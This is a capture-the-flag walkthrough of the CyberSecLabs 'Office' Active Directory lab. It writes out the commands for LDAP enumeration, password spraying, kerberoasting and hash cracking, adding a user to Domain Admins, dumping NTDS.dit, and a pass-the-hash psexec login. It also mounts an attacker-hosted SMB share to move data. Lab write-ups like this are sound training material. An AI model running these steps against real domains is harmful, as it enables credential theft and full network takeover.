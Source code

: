 ## Cyberseclabs - Office Walkthrough


## Nmap Scan 
As usual, we start off with a nmap scan to discover open ports and its corresponding services running on the system.

![nmap_scan.PNG](/images/office/Nmap/nmap_scan.PNG)

From the nmap scan , we see a bunch of open ports, mainly
- Port 88 : Kerberos
- Ports 135,139,445 : SMB 
- Ports 389,3268 : LDAP
- Port 3389 : RDP
- Port 5985 : Winrm 

Before we continue, we have to edit our **hosts** file and add the  domain name + IP address 

![hosts.PNG](/images/office/Nmap/hosts.PNG)

## SMB Enumeration
Let's start off by enumerating SMB, to see if we have anonymous access (a.k.a NULL Session).

![smbclient.PNG](/images/office/Nmap/smbclient.PNG)

As seen above, no shares were shown/discovered when we login to smb as anonymous 

Since we do not have any credentials or information on SMB, let's turn our attention to LDAP.

## LDAP Enumeration
One great tool to enumerate LDAP that is build into Kali Linux is **ldapsearch**.
![namingcontexts.PNG](/images/office/LDAP/namingcontexts.PNG)
<u>ldapsearch -h 172.31.3.2 -x -s base namingcontexts</u>

By running the above command, we get the base DN so that we can do our ldap query later on.

![dsmith.PNG](/images/office/LDAP/dsmith.PNG)
![crhodes.PNG](/images/office/LDAP/crhodes.PNG)
![ssmith.PNG](/images/office/LDAP/ssmith.PNG)
<u>ldapsearch -h 172.31.3.2 -x -b "DC=roast,DC=csl"</u>

Looking at the output above , we discovered 3 users and user **dsmith** has its password in his description. (WelcomeToR04st)

We went back to **enumerate smb** with user **dsmith**'s credentials, however, nothing interesting there.

## RPC User Enumeration 
Upon obtaining user **dsmith**'s credentials, I tried to enumerate for more users using rpcclient 
![enumdomusers.PNG](/images/office/rpcclient/enumdomusers.PNG)
From the output, there is an additional non-default user  **roastsvc**.

## Kerbrute PasswordSpray
Since evil-winrm does not return us a shell as user **dsmith**, let's try some password spraying to see if any other users share the same password as **dsmith**
![passwordspraying.PNG](/images/office/kerbrute/passwordspraying.PNG)
<u>./kerbrute_linux_amd64 passwordspray -v -d roast.csl --dc 172.31.3.2 users.txt WelcomeToR04st</u>

Through password spraying, we discover that user **crhodes** also shares the same password as user **dsmith**. 

## Enumerate users with SPN set
Let's obtain a shell as user **crhodes** using evil-winrm and at the same time, load [PowerView](https://github.com/PowerShellMafia/PowerSploit) powershell script.
![crhodes.PNG](/images/office/kerberoast/crhodes.PNG)
After obtaining a shell as user **crhodes**, we realised that the access.txt is not in the Desktop directory. It means we have to enumerate more and esclate ourselves to another user. 

From here, we can get more information on all the AD users by running PowerView's command **Get-NetUser -SPN** to list all users with a SPN set. 

![SPN.PNG](/images/office/kerberoast/SPN.PNG)
From the output, we discover that user **roastsvc** has a serviceprincipalname(SPN) set. With this information, it tells us that user **roastsvc** is **likely** susceptible to **kerberoasting**.

## Kerberoasting 
Since we know that user **roastsvc** is likely vulnerable to kerberoasting, we can use [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) by impacket to obtain the TGS and take it offline to crack
![TGS.PNG](/images/office/kerberoast/TGS.PNG)

Once we obtain the TGS, let's crack it with hashcat
![cracked_tgs.PNG](/images/office/kerberoast/cracked_tgs.PNG)
<u>hashcat -m 13100 -a 0 roastsvc_spn /usr/share/wordlists/rockyou.txt</u>

Credentials -> roastsvc:!!!watermelon245

## Privilege Esclation to SYSTEM
Once we get a shell as user **roastsvc**, we upload and run [BloodHound](https://github.com/BloodHoundAD/BloodHound) against the machine to reveal any misconfigured AD relationships.

First, let's setup a smb-server using impacket then mount the smb share on the target machine, so that we can upload Bloodhound and download the bloodhound output with ease
- 1. Setup impacket's smb-server
	![smbserver.PNG](/images/office/SMBServer/smbserver.PNG)
	Syntax : impacket-smbserver (sharename) (directory) -smb2support -username (your-username) -password (your-password)
- 2. Setup new PSDrive on target machine and mount the share
	![mount.PNG](/images/office/SMBServer/mount.PNG)
	- $pass = convertto-securestring (your-password) -AsPlainText -Force
	- $cred = New-Object System.Management.Automation.PSCredential('(your-username)', $pass)
	- New-PSDrive -Name (your-username) -PSProvider FileSystem -Credential $cred \\\\(your-ip)\(share-name)
- 3. CD into your share, run bloodhound 
	![sharphound.PNG](/images/office/SMBServer/sharphound.PNG)
	- Make sure you upload bloodhound to the directory you created as the share
- 4. Start Bloodhound 
	![bloodhound.PNG](/images/office/SMBServer/bloodhound.PNG)
	- neo4j console start
	- bloodhound 

- 5. Upload the bloodhound output to analyze 
	![bloodhound_output.PNG](/images/office/SMBServer/bloodhound_output.PNG)
	- Drag and drop the zip file into the bloodhound console

Once we are done setting up BloodHound, let's start analyzing the output that we have gathered from the target machine.
- 1. Mark user **roastsvc** as **Owned**
	![owned_user.jpg](/images/office/SYSTEM/owned_user.jpg)
- 2. Use the built-in query 
	![path_to_DA.jpg](/images/office/SYSTEM/path_to_DA.jpg)
	- "Shortest Path to Domain Admins from Owned Principals"

From here, we found out that user **roastsvc** has **GenericWrite** to group **Domain Admins**.

![generic_write.PNG](/images/office/SYSTEM/generic_write.PNG)
- **GenericWrite** : Provides write access to all properties

Since user **roastsvc** has **GenericWrite** permission to the **Domain Admins** group, we can simply just add user **roastsvc** into the **Domain Admins** group.
- 1) List all current members of **Domain Admins** group
	![original_DA_members.PNG](/images/office/SYSTEM/original_DA_members.PNG)
	- net group (group-name) /domain
- 2. Add user **roastsvc** into **Domain Admins** group
	![add_to_DA.PNG](/images/office/SYSTEM/add_to_DA.PNG)
	- net group (group-name) (user-to-add) /ADD /DOMAIN 
- 3. Check if user **roastsvc** is added into the group
	![updated_DA_members.PNG](/images/office/SYSTEM/updated_DA_members.PNG)
	- net group (group-name) /domain

Lastly, we can dump the NTDS.dit hash file for the Administrator's hash using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) by impacket and [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) into the target machine
- 1. Dumping the NTDS.dit hash file 
	![secretsdump.PNG](/images/office/SYSTEM/secretsdump.PNG)
	- python secretsdump.py (domain-name)/(user)@(domain-name) -dc-ip 172.31.3.2
- 2. Get the Administrator's hash
	![admin_hash.PNG](/images/office/SYSTEM/admin_hash.PNG)
	
- 3. PSExec 
	![psexec.PNG](/images/office/SYSTEM/psexec.PNG)
	- python psexec.py (domain-name)/user@(domain-name) -hashes (admin-hash) -dc-ip 172.31.3.2 




















